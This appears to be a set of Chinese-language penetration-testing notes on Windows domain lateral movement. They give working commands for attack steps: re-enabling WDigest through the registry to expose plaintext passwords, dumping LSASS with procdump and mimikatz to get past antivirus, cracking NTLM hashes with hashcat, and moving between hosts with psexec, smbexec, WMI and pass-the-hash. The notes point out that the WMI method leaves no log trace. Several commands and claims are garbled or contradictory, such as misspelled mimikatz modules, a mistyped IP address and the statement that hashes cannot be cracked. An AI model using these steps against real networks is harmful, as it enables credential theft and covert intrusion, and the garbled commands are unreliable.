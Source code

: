 域用户和普通用户的区别


Windows2012以上版本默认关闭wdigest,攻击者无法从内存中获取明文密码
Windows2012以下版本如安装KB2871997补丁,也会导致无法获取明文密码
Windows系统LM HASH及NTLM Hash加密算法,个人系统在Windows vista后,服务器系统在Windows 2003以后,认证方式均为NTLM Hash。
针对以上情况,我们提供了4种方式解决此类问题
1.利用哈希hash传递(pth,ptk等)进行移动
2.利用其他服务协议(SMB,WMI等)进行哈希移动
3.利用注册表操作开启Wdigest Auth值进行获取
4.利用工具或第三方平台(Hachcat)进行破解获取

当目标为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f




#密码获取
如果上传Minmiktz上传后被杀,可以使用Procdump+Mimikatz这个方法
运行procdump在当前目录下生成lsass.dmp文件
mimikatz上执行:
sekurlas::minidump lsass.dmp
sekurlas::logonPasswords full

Hashcat 破解获取Windows NTML Hash
hashcat -a 0 -m 1000 file --force

-m, —hash-type=NUM           哈希类别，其NUM值参考其帮助信息下面的哈希类别值，其值为数字。如果不指定m值则默认指md5，例如-m 1800是sha512 Linux加密。


#连接工具
psexec第一种:使用系统自带的psexec先有ipc链接,psexec需要明文或hash传递
net use \\192.168.3.32\ipc$ "admin!@#45" /user:administrator
psexec \\102.168.3.32 -s cmd #需要先有ipc链接 -s以system权限运行

psexec第二种:使用github下载的psexec加强版 不用建立IPC 直接提供明文账户密码
而且可以使用哈希密码

哈希是不可逆的 无法破解
所以如果可以使用哈希密码非常方便
需要用到一个非官方的库impacket


smbexec无需先ipc链接 明文或哈市传递


WMI(windows Management Instrumentation)时通过135端口进行利用,支持用户名明文或者hash的方式进行认证,并且该方法不会在目标日志系统下痕迹
官方自带的WMIC 明文传递 无回显(缺点,功能比较尴尬)
改进方法
借助一个wmiexec.vbs文件


psexec smb wmi 协议可真多啊


#域横向移动以上服务bash批量利用-python编译exe


如果免杀无法通过怎么办？
使用PTH&PTK&PTT进行哈希传递





